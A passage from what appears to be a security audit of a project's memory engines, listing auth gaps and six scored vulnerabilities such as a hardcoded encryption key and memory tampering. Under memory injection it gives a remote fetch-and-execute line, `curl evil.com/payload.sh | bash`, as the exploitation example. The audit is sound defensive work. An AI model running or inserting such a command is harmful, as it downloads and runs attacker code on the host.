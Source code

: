 ### ❌ Integration Gaps:
1. **Memory Systems Not Protected**: No auth requirement for memory operations
2. **Direct File Access**: Encrypted files accessible without authentication
3. **Missing Auth Enforcement**: Memory engines bypass Quadran-Lock entirely

---

## Detailed Vulnerability Assessment

### Critical Risk Vulnerabilities (4)

1. **Memory Injection Attack Vector**
   - **CVSS Score:** 9.8 (Critical)
   - **Description:** Malicious code injection through memory context fields
   - **Affected Systems:** Memory V2 Engine, Memory V3 Engine
   - **Exploitation:** `curl evil.com/payload.sh | bash` in memory context

2. **Hardcoded Encryption Key**
   - **CVSS Score:** 9.1 (Critical)
   - **Description:** Default encryption key exposed in source code
   - **Affected Systems:** MemoryEncryptionEngine
   - **Exploitation:** Direct key extraction from code review

3. **Authentication Bypass**
   - **CVSS Score:** 8.8 (High)
   - **Description:** Memory systems accessible without authentication
   - **Affected Systems:** All memory operations
   - **Exploitation:** Direct file system access to encrypted memories

4. **Canonical Memory Tampering**
   - **CVSS Score:** 8.5 (High)
   - **Description:** Immutable memories can be modified
   - **Affected Systems:** Canonical Memory Archives
   - **Exploitation:** Direct episode memory modification

### High Risk Vulnerabilities (2)

5. **Temporal Integrity Violations**
   - **CVSS Score:** 7.3 (High)
   - **Description:** Timeline corruption through invalid temporal data
   - **Affected Systems:** Memory V3 Temporal Engine
   - **Exploitation:** Future timestamps and negative context windows

6. **Cross-Memory Contamination**
   - **CVSS Score:** 7.1 (High)
   - **Description:** Security failures cascade across memory systems
   - **Affected Systems:** Memory V2/V3 integration
   - **Exploitation:** Multi-system breach through single entry point

---

## Compliance Assessment
